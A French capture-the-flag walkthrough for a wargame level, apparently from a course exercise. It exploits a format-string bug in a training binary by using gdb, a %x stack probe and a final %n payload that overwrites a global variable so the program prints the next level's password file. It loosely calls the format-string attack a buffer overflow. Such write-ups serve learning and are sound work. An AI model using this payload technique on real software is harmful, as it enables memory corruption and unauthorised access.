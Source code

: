 ## LEVEL 4

# Le level 4 est quasi pareil que le level 3

En inspectant le code avec gdb, nous voyons que le programme appelle printf, mais directement avec la variable passe en argument. Il n'y a donc pas de formatage de la chaine de caractere. Et egalement, on se rends compte que le programme appelle system tout en affichant le .pass, si le m(pas encore initialise) est egal a 16930116

D'apres le man de printf: `Un code tel que printf(foo); indique souvent un bogue, car foo peut contenir un caractère « % ». Si foo vient d'une saisie non sécurisée, il peut contenir « %n », ce qui autorise printf() à écrire dans la mémoire, et crée une faille de sécurité.  `

```c
void n(void)

{
  char local_20c [520];

  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 16930116) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}
```

On peut donc deja trouver l'adresse de la variable m avec gdb

```
info variables

0x08049810  m
```

On peut exploiter le faire que printf ne reformate pas ce qu'on envoie pour faire une attaque de type buffer overflow.

```python
python -c 'print "iiii" + "%x | "*16' | ./level4
iiiib7ff26b0 | bffff794 | b7fd0ff4 | 0 | 0 | bffff758 | 804848d | bffff550 | 200 | b7fd1ac0 | b7ff37d0 | 69696969 | 7c207825 | 20782520 | 7825207c | 25207c20 |
```

Notre buffer est donc affiche en 12 eme position, on peut donc mettre exploiter le 12 eme % de printf avec %n pour ecrire dans la variable m. Sauf que le nombre de caractere a ecrire est trop grand, donc on doit juste utiliser le %<number>d pour ecrire le nombre de caractere qu'on veut.

```python
python -c 'print "\x10\x98\x04\x08"+"%16930112d%12$n"' | ./level4
```
